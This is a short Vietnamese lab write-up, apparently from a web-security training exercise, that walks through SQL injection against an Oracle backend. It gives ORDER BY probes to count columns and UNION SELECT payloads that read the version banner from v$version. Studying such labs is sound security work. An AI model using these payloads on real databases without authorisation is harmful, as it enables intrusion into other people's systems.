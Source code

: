 # SQL injection attack, querying the database type and version on Oracle

Bài lab này yêu cầu ta kiểm tra phiên bản Oracle mà máy chủ  đang sử dụng.

Kiểm tra xem có bao nhiêu cột bên trong bảng:
- `' ORDER BY 1--`
- `' ORDER BY 2--`
- `' ORDER BY 3--` (tới đây thì sever error, vậy là chỉ có 2 cột trong bảng)

Tiếp theo ta kiểm tra xem kiểu dữ liệu bên trong từng cột của bảng:
- `' UNION SELECT 'ahihi','hehehe' FROM dual--` (mặc định bên trong Oracle luôn có bảng ảo `dual` )

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134408970359013442/image.png)

Vậy là cả hai cột đều có kiểu dữ liệu `string`(kiểu dữ liệu chuỗi cũng là kiểu dữ liệu diễn tả phiên bản oracle đang dùng)

Tiếp theo ta truy cập vào cột `BANNER` của bảng `v$version` :
- `' UNION SELECT NULL,BANNER FROM v$version--`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134410334531227659/image.png)
